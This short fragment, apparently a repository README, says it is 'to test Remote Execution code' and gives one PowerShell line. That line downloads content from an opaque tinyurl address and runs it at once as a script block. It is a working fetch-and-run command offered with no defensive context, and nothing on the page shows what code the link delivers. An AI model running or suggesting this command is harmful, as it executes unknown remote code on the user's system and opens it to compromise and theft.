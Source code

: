# So

This is to test Remote Execution code Example line : 
powershell -Command "Invoke-Command -ScriptBlock ([ScriptBlock]::Create((Invoke-WebRequest -Uri 'https://tinyurl.com/yrf7ck5z' -UseBasicParsing).Content))"
